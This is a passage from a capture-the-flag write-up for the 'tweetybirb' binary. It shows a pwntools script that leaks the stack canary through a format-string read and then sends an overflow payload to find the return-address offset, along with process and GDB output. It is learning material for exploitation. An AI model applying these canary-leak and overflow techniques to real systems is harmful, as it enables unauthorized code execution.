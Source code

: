 ##### Finding the return pointer overwrite offset

```python
from pwn import *

binary = ELF('./tweetybirb')

ret = 0x00401344

# canary fmt string
canary_fmt = b"%15$016llx"
p = process("./tweetybirb")
p.recvline()
p.sendline(canary_fmt)
canary = int(p.recv(16).decode(),16)
log.success('got canary: %s' % hex(canary))

# canary offset: 72
payload = b'A' * 72
payload += p64(canary)
payload += b'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'

p.recvline(2)
input('attach debugger...')
p.sendline(payload)
p.interactive()
```

This will place our canary in the correct place allowing us to get to the SIGSEGV and find out our return address on the stack. When i run it, it gets right up to the point before sending the overflow payload and waits for a debugger to be attached:

```shell
$ ./findretaddr.py 
[*] 'tweetybirb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './tweetybirb': pid 865467
[+] got canary: 0xeede540c50a27700
attach debugger...
```

In another window I open GDB and allow the process to continue:

```shell
$ gdb -p `pidof tweetybirb`
...
gdb-peda$ c
Continuing.
```

I return back to the first window and let the payload send... and I get the crash in GDB as expected:
